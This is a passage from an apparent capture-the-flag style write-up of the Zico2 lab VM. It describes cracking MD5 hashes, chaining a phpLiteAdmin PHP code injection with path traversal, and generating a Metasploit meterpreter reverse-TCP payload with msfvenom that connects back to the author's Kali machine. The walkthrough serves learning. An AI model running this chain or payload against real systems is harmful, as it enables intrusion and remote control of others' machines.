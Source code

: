 With MD5 still a possibility, I tried submitting the two hashes to [Crackstation](https://crackstation.net) to see if either hash was contained in their 15 billion row lookup table and got matches back for both. The hashed root password was '34kroot34' and the hashed password for zico was 'zico2215@'. I thought maybe these might be reused for SSH users, so I tried using both sets of credentials to login over SSH, but no luck there.

With no other ideas of how to use the credentials, I started looking for known vulnerabilities in the version of phpLiteAdmin I was investigating. That yielded a promising result on [Exploit DB](https://www.exploit-db.com/exploits/24044/) that allowed PHP Remote Code Injection, by allowing a user to control the file extension for a database name. By writing a row to this database containing some PHP, you can create a script that will be executed by Apache's PHP module, surrounded by some SQLite file metadata, which will be treated as plain text content. I tried the proof of concept in the Exploit DB report, which calls the phpinfo() function to dump a lot of useful PHP configuration data.

Using the path traversal vulnerability in the view.php script I found earlier, I was able to browse to the directory that stored the site's databases and execute the PHP script I just created.

![phpLiteAdmin PHP Remote Code Injection 1]({{ site.url}}/assets/Zico2/Zico2PHPInjection1.png)

![phpLiteAdmin PHP Remote Code Injection 2]({{ site.url}}/assets/Zico2/Zico2PHPInjection2.png)

![phpLiteAdmin PHP Remote Code Injection 3]({{ site.url}}/assets/Zico2/Zico2PHPInjection3.png)

Now that I had achieved Remote Code Execution, I spent a while trying to get a PHP web shell or Metasploit's PHP Reverse TCP payload to work, but couldn't get anywhere useful. So then I started thinking about other ways I could exploit this to get a reverse shell. The PHP Info page disclosed the output of `uname -a`, so I knew the target VM was running Ubuntu 64 bit.

After a while, I came to the conclusion that I could use the PHP RCE exploit to get the target to download and execute a binary payload, which I could host on my Kali VM using a simple Python HTTP server. Using Metasploit, I could build a binary payload to preform a reverse TCP connection to establish a remote shell.

First things first, let's create the Metasploit payload. I generated this using msfvenom, which is the standalone tool in the Metasploit framework for payload generation.

~~~
~/b/zico2 # ❯❯❯ msfvenom -p linux/x64/meterpreter_reverse_tcp -f elf -o shell -a x64 --platform linux LHOST=192.168.56.102 LPORT=12345
No encoder or badchars specified, outputting raw payload
Payload size: 746944 bytes
Final size of elf file: 746944 bytes
Saved as: shell
~~~

Those options mean:
* `-p linux/x64/meterpreter_reverse_tcp` - Use the linux/x64/meterpreter_reverse_tcp payload
* `-f elf` - Generate an ELF format executable
* `-o shell` - Save to a file called shell
* `-a x64` - x64 architecture. Despite the payload being for the x64 architecture, msfvenom still needs to know which architecture to build for.
* `--platform linux` - Build for Linux. Despite the payload being for Linux, msfvenom still needs to know which platform to build for.
* `LHOST=192.168.56.102` - Set the LHOST variable (the target for the reverse shell to connect to) to my Kali VM's IP address
* `LPORT=12345` - Connect to a listener on port 12345
